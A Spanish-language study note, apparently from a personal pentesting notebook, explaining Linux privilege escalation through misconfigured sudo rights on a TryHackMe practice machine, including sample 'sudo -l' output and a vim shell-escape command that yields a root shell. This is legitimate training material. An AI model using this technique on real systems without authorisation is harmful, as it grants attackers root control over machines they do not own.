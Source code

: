 El comando Sudo es una maravilla, nos permite a los usuarios normales ejecutar comandos como root, cambiarnos rapidamente de usuarios a root, claro que todo esto con la contraseña, porque si no seria muy inseguro... ¿Verdad? ¿VERDAD? bueno pues, lamento decir que este comando no es completamente seguro, aunque cabe decir que la culpa suele ser mas de lo susuarios que otorgan permisos que no deberian, a que me refiero con esto, bueno pues primero hay que entender que hace la opcion:

```bash
sudo -l
```

Esta opcion lo que hace es mostrar los comandos que un usuario normal puede ejecutar como root sin necesidad de una contraseña, o solo usando la contraseña del propio usuario, usualmente la vulnerabilidad se encuentra en scripts o aplicaciones personalizadas a las alguno usuarios que no deberian pueden ejecutarlas como root y esto noes puede ayudar a escapar de nuestra shell, ejecutar una reverse shell como root, etc, el punto es que no siempre es asi, muchas veces hay apicaciones predeterminadas de Unix que están definidas con esta configuración de sudo, y para explotar esta vulnerabilidad en casos como estos podemos hacer uso de la pagina GTOFBins ubicada en la seccion de paginas interesantes: [[Privilegie Scalation - Linux#Explotación]] 

Ahora voy a usar de ejemplo una maquina altamente vulnerable de THM (Try Hack Me) llamada Linux PrevEsc Arena


```bash
TCM@debian:~$ sudo -l                                                                   Matching Defaults entries for TCM on this host:                                         env_reset, env_keep+=LD_PRELOAD                                                                                                                                                 User TCM may run the following commands on this host:                                   (root) NOPASSWD: /usr/sbin/iftop                                                        (root) NOPASSWD: /usr/bin/find                                                          (root) NOPASSWD: /usr/bin/nano                                                          (root) NOPASSWD: /usr/bin/vim                                                           (root) NOPASSWD: /usr/bin/man                                                           (root) NOPASSWD: /usr/bin/awk                                                           (root) NOPASSWD: /usr/bin/less                                                          (root) NOPASSWD: /usr/bin/ftp                                                           (root) NOPASSWD: /usr/bin/nmap                                                          
(root) NOPASSWD: /usr/sbin/apache2                                                      (root) NOPASSWD: /bin/more  
```

Como se puede ver aqui, esta maquina es altamente vulnerable por todos los posibles comandos que se puede ejecutar con permisos sudo, y aqui podemos usar varias de las funciones/comandos que nos otorga GTOFBins:


![[Pasted image 20240815212450.png]]

Y a continuacion el uso en la maquina y su resultado (en mi caso pongo /bin/bash en vez de /bin/sh porque la verdad prefiero mucho mas una bash que una sh):

```bash
TCM@debian:~$ sudo vim -c ':!/bin/bash'                                                                                                                                        root@debian:/home/user# whoami
root                                                                                    root@debian:/home/user#
```

Como pueden ver pudimos realizar una escalada de privilegios exitosamente, y esto lo podemos repetir con la mayoria de los comandos que vimos con sudo -l

¿La mayoria?, si, la mayoria, porque los comandos que no se pueden con el metodo visto aqui, como puede ser apache2 o wget, lo veremos en [[Explotando visualizacion de archivos privilegiados con sudo]]
